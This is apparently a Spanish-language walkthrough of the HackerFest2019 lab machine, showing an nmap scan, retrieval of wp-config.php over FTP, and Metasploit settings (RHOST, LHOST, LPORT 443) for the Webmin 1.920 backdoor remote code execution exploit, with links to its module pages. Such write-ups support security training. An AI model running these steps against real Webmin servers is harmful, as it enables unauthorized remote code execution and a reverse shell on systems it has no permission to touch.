 # HackerFest2019 - Walkthrough



`nmap -sC -sV 192.168.153.32 -o nmap-scan`

**Escaneo de Puertos**

![](images/hackerfest2019/nmap1.png)

![](/images/hackerfest2019/nmap2.png)

Dentro de los archivos que existen dentro de FTP esta wp-config.php

**Extraccion de archivo de configuracion de wordpress**

![](/images/hackerfest2019/accesoftp.png)

**Revision del contenido de wp-config.php**

![](/images/hackerfest2019/wp-config.png)

No se puede acceder con estas credenciales ni via SSH ni en wp-admin. Otro vector de ataque seria utilizando un exploit para webmin

**Exploits sugeridos para Webmin**

![](/images/hackerfest2019/searchsploit.png)

![](/images/hackerfest2019/webmin.png)

**Configuracion en Rapid7**

![](/images/hackerfest2019/rapid7.png)

Se ingresa a metasploit los datos que se solicitan para el exploit.

+ RHOST 192.168.153.32
+ LHOST 192.168.49.153
+ LPORT 443
+ exploit target 0 
+ SSL true
+ forceexploit true

**Exploit**

![](/images/hackerfest2019/exploit.png)


## Referencias

+ **Pasos para ejecutar el exploit** https://www.rapid7.com/db/modules/exploit/linux/http/webmin_backdoor
+ **Exploit Webmin 1.920 -Remote Code Execution** https://www.exploit-db.com/exploits/47293
